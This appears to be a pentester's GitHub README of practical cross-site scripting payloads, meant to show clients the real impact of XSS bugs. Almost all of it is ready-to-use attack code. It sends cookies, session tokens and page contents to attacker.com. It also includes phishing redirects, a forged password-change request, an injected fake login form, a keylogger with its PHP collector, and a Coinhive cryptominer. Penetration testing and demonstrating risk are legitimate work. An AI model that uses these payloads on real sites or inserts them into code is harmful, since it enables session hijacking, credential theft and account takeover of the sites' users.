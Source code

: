 # practical-xss

Prove the real risk of XSS vulnerabilities with the following scenarios

### Stealing cookies/token
```<script>new Image().src=`//attacker.com/?o=${document.cookie}`</script>```

```<svg/onload=fetch(`//attacker.com/?o=${document.cookie}&o2=${localStorage.getItem('token')}`)>``` ***//change the getItem***

```<img src=x onerror="document.location='https://attacker.com?o='+window.localStorage.getItem('token')">``` ***//change the getItem***

### Stealing page data
#### Specific id
```<script>new Image().src=`//attacker.com/?o=${document.getElementById('sensetive_information').innerHTML}`</script>```

```<script>new Image().src="//attacker.com/?o="+document.getElementById('sensetive_information').innerHTML;</script>```

#### Specific class
```<script>new Image().src=`//attacker.com/?o=${document.getElementsByClassName('sensetive_information')[0].innerText}`</script>```

```<script>new Image().src="//attacker.com/?o="+document.getElementsByClassName('sensetive_information')[0].innerText;</script>```

#### Entire page
```<script>new Image().src=`//attacker.com/?o=${encodeURI(document.body.innerHTML)}`</script>```

```<script>new Image().src="//attacker.com/?o="+encodeURI(document.body.innerHTML)</script>```

### Redirect users to malicious sites
```<script>alert`Please login again`;window.location.href="http://attacker.com";</script>```

```<script>if(confirm("Please login again!"))document.location='http://attacker.com/';</script>```

### Perform unauthorized activities
```
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://victim.com/changePassword',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('email=admin@victim.com&newPassword=Aa123456');
</script>
```

### Fake login form
```<h3>Please login to proceed</h3><form action=http://attacker.com/>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>```

### Key-logger

**xss.js**
```
var l = "";
document.onkeypress = function (e) {
    l += e.key;
    var req = new XMLHttpRequest();
    req.open("POST","http://attacker.com/keylog.php", true);
    req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    req.send("data=" + l);
}
```

**keylog.php**
```
<?php
if(!empty($_POST['data'])){
	$logfile = fopen('data.txt','a+');
	fwrite($logfile, $_POST['data'] . "\n");
	fclose($logfile);
}
?>
```

Inject this:
<script src="//attacker.com/xss.js"></script>

### Crypto Mining
```<script src="https://coin-hive.com/lib/coinhive.min.js">var miner = new CoinHive.Anonymous('thisistest');miner.start();</script>```

It's important to show a POC of an extension that detects a crypto mining script, you can do this with Chrome extensions like [MinerBlock](https://chrome.google.com/webstore/detail/minerblock/emikbbbebcdfohonlaifafnoanocnebl?hl=en)


###### References
1. https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
2. https://github.com/chentetran/xss-keylogger/blob/master/keylogscript.html
<br/><br/>
**EY Cyber - Hacktics team**
